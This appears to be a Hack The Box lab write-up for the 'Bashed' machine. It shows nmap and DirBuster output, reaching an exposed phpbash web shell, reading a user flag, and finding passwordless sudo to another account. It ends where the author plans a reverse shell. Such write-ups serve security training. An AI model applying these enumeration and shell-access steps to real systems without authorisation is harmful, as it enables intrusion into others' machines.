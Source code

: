 # HTB - Bashed
## OS - Linux

I started with an nmap scan of Bashed (IP address: 10.10.10.68)
```
──╼ $nmap -sC -sV 10.10.10.68
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-20 16:42 PST
Nmap scan report for 10.10.10.68
Host is up (0.092s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.83 seconds
```
Visiting http://10.10.10.68 shows phpbash tool at http://10.10.10.68/single.html. 

That made me try Dirbuster. Here are some results after a few min.

```
Dir found: / - 200
Dir found: /images/ - 200
Dir found: /icons/ - 403
File found: /index.html - 200
File found: /single.html - 200
Dir found: /js/ - 200
File found: /js/imagesloaded.pkgd.js - 200
File found: /js/jquery.js - 200
File found: /js/jquery.nicescroll.min.js - 200
File found: /js/jquery.smartmenus.min.js - 200
File found: /js/jquery.carouFredSel-6.0.0-packed.js - 200
File found: /js/jquery.mousewheel.min.js - 200
Dir found: /demo-images/ - 200
File found: /js/jquery.touchSwipe.min.js - 200
File found: /js/custom_google_map_style.js - 200
File found: /js/jquery.easing.1.3.js - 200
File found: /js/html5.js - 200
File found: /js/main.js - 200
Dir found: /uploads/ - 200
Dir found: /php/ - 200
File found: /php/sendMail.php - 200

```
Since phpbash.php was missing in the results, I tried again. This time with /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt. I got more results. 

```
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: / - 200
Dir found: /images/ - 200
File found: /index.html - 200
Dir found: /icons/ - 403
File found: /single.html - 200
Dir found: /js/ - 200
File found: /js/jquery.js - 200
File found: /js/imagesloaded.pkgd.js - 200
File found: /js/jquery.nicescroll.min.js - 200
File found: /js/jquery.smartmenus.min.js - 200
Dir found: /demo-images/ - 200
File found: /js/jquery.carouFredSel-6.0.0-packed.js - 200
File found: /js/jquery.mousewheel.min.js - 200
File found: /js/custom_google_map_style.js - 200
File found: /js/jquery.touchSwipe.min.js - 200
File found: /js/html5.js - 200
File found: /js/jquery.easing.1.3.js - 200
File found: /js/main.js - 200
Dir found: /uploads/ - 200
Dir found: /php/ - 200
File found: /php/sendMail.php - 200
Dir found: /css/ - 200
File found: /css/carouFredSel.css - 200
File found: /css/clear.css - 200
File found: /css/common.css - 200
File found: /css/font-awesome.min.css - 200
File found: /css/sm-clean.css - 200
Dir found: /icons/small/ - 403
Dir found: /dev/ - 200
File found: /dev/phpbash.min.php - 200
File found: /dev/phpbash.php - 200

```

This worked: http://10.10.10.68/dev/phpbash.php

Browsing through this tool, I saw that user arrexel has an account, so I got the flag from /home/arrexel/user.txt.

```
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
www-data@bashed
:/var/www/html/dev# id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@bashed
:/var/www/html/dev# ls /home/arrexel

user.txt
www-data@bashed
:/var/www/html/dev# cat /home/arrexel/user.txt
```

I also see that www-data has sudo permissions to become scriptmanager without any password.

```
www-data@bashed
:/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

To get the root flag, I need a reverse shell, as the connection through this phpbash.php is not persistent.
